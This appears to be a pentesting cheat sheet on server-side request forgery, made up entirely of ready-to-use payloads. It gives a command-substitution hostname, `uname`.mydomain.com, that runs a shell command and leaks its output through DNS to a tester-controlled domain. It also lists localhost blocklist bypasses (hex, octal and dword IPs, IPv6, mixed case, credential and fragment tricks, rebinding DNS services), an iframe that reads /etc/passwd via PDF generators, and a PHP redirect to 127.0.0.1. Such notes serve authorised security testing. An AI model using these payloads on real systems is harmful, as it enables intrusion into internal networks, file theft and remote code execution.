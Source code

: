# SSRF


## RCE
If you have SSRF, test for RCE with this payload:

```
`uname`.mydomain.com
```

## Trigger error
* Add `#` while testing for SSRF in order to trigger errors and maybe read stacktraces

## Blacklist bypass
* Pass URL encoded parameters in order to achieve parameter injection
* Use `<iframe src="file:///etc/passwd>` with PDF generators
* URL encode `localhost` to `%6c%6f%63%61%6c%68%6f%73%74`
* Change HTTP version from `1.1` to `0.9` and remove the Host header
* Try `127.0.0.1::ffff::` or `::ffff:127.0.0.1`
* Mix case `LoCaLhOsT`
* Embed credentials `http://attacker@localhost`
* Use URL fragments `http://attacker#localhost`
* Add directory `http://localhost/random`
* Try using an IPv6 address as sometimes blacklists do not block them

### Redirect
Make a request to a page that you control with the following code:

```php
<?php header("location: http://127.0.0.1"); ?>
```
### DNS
* Use these tools to bypass internal hostnames
	* [nip.io](http://nip.io)
	* [xip.io](http://xip.io/)
  * [1u.ms](http://1u.ms/)
	* [sslip.io](https://sslip.io/)

### Encoding
Try different encodings:

* Hex `0x7f.0x0.0x0.0x1`
* Octal `0177.0.0.01`
* Url `http://%31%32%37%2e%30%2e%30%2e%31`
* Dword [`http://2130706433`]
* Remove spaces `0177000000000001`
* Mix them `0177.0.0.0x1`
* `http://31.10.590` converts to [`http://31.10.2.78/`] because (2\*256)+78
* Convert the IP address to binary representation like `01111111.00000000.00000000.00000001` and after removing the dots convert the number in decimal and you get `2130706433`
* Add zeroes `http://127.0.0000000.1/`
